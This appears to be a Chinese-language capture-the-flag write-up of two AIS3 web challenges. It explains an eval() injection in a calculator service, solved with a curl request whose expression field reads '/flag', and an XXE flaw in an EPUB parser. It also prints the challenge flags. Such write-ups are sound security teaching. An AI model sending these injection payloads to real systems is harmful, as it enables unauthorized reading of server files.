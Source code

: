 題目作者：[TriangleSnake](https://blog.trianglesnake.com/)\
題目難度：Warmup\
解題人數：213/328

{{<details "Source code"></details>}}

![calculator](calculator.webp)

這題提供了一個計算機的介面，輸入算式後會被送到後端計算，由於使用了 `eval()` 函數，並且只有過濾掉 `_` 和空格，只要控制 `expression` 的內容就能執行惡意程式碼。由於無法直接匯入東西（`__import__` 需要底線，`import os` 需要空格），我的解法是透過 [Python Bulit-in Functinos](https://docs.python.org/3/library/functions.html) 中的 `open()` 函數讀取 flag 檔案。

```bash
curl -X POST http://chals1.ais3.org:5001/calculate -H "Content-Type: application/json" \
    --data "{\"expression\":\"open('/flag').read()\"}"
{"result":"AIS3{7RiANG13_5NAK3_I5_50_3Vi1}"}
```

Flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

### Ebook Parser

題目作者：[石頭吐司](https://t510599.github.io/)\
題目難度：Easy\
解題人數：35/328

這個題目要求我們上傳一個電子書檔案，然後將其中的幾個 meta 顯示在網站上。這個題目的漏洞在使用的函數庫上，epub 使用 XML 格式儲存 meta 相關資料，但是函數庫在解析 epub 檔案時沒有過濾掉 [External Entities](https://www.w3.org/TR/REC-xml/#sec-external-ent)，我在網路上找了一個[範例 EPUB 檔案](https://idpf.github.io/epub3-samples/30/samples.html)，跟著[維基百科](https://en.wikipedia.org/wiki/XML_external_entity_attack)的說明就能夠讀取到 flag。

```python
def _get_title_node(self):
  node_list = self._get_all('opf:metadata/dc:title')
    for node in node_list:
      refines_list = self._get_all('opf:metadata/opf:meta[@refines="#{0}" and @property="title-type"]'.format(self._get_element_id(node)))
      if len(refines_list) == 0:
        return node
      else:
        for refines in refines_list:
          if refines.text == 'main':
            return node
```
